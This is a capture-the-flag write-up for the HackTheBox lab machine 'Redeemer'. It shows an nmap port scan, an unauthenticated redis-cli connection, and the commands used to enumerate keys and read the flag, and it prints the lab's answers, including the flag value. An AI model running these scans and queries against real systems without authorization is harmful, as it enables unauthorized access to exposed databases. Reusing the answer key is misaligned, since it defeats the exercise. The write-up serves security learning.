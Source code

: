 ```yaml
---
title: HackTheBox - Redeemer 
date: 2023-08-01
categories: [HackTheBox, Machine]
tags: [redis]
---
```


# Redeemer

_Which TCP port is open on the machine?_

```bash
$ nmap -sC -sV <ip>
no port open

$ nmap -sC -sV -p- <ip>
...
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

_Which service is running on the port that is open on the machine?_

`Redis`

_What type of database is Redis?_

`In-memory Database`

_Which command-line utility is used to interact with the Redis server?_

`redis-cli`

_Which flag is used with the Redis command-line utility to specify the hostname?_

`-h <hostname>`

_Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?_

```bash
$ redis-cli -h <hostname> -p <port>
hostname:port> info
```

_What is the version of the Redis server being used on the target machine?_

`5.0.7`

_Which command is used to select the desired database in Redis?_

`select`

_How many keys are present inside the database with index 0?_

```bash
hostname:port> info
...
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
...
```

_Which command is used to obtain all the keys in a database?_

`keys *`

_Submit root flag_

```bash
hostname:port> keys * 
1) "temp" 
2) "stor" 
3) "numb" 
4) "flag" 
hostname:port> keys 4 
(empty array) 
hostname:port> keys flag 
1) "flag" 
hostname:port> get flag 
"03e1d2b376c37ab3f5319922053953eb"
```

